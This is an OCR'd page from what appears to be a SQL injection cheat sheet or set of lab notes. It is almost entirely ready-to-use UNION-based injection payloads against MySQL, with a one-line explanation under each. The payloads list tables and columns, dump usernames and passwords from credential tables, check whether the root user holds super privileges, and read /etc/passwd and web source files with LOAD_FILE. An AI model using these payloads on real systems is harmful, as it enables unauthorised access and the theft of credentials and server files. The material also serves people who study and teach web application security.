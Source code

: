 ```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- 
```
List tables in database named `dev`
##### Columns 
Find the column names 
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA, 5 from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- 
```
List columns in table named `credentials`
##### Data 
```sql
cn' UNION select 1, username, password, 4,5 from backup.admin_bk-- 
```
### Reading Files
Must have the `FILE` privilige
#### Get User
```sql
cn' UNION SELECT 1, user(), 3, 4-- 
```
or
```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- 
```
#### Get User Privs
```sql
SELECT super_priv FROM mysql.user
```

```sql
cn' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user-- 
```

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- 
```
Looking for a `Y` to indicate super user privs.
**List Privileges:**
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4, 5 FROM information_schema.user_privileges WHERE user="root"-- 
```
#### Load File 
```sql
SELECT LOAD_FILE('/etc/passwd');
```
Payload:
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4, 5-- 
```
or 
```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4, 5-- 
```
May need to view source code of website
